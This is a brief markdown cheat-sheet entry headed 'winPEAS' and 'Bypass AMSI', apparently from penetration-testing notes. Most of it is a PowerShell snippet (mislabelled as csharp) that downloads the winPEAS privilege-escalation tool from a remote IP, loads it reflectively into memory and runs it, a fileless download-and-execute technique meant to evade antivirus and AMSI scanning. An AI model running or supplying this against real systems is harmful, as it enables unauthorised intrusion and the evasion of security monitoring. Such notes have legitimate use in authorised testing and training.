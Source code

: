 # winPEAS

## Bypass AMSI

```csharp
$ass = (new-object net.webclient).DownloadData('http://192.168.49.99/tools/winPEASx64.exe')
$assem = [System.Reflection.Assembly]::Load($ass)
[WinPEAS.Program]::main("")
```


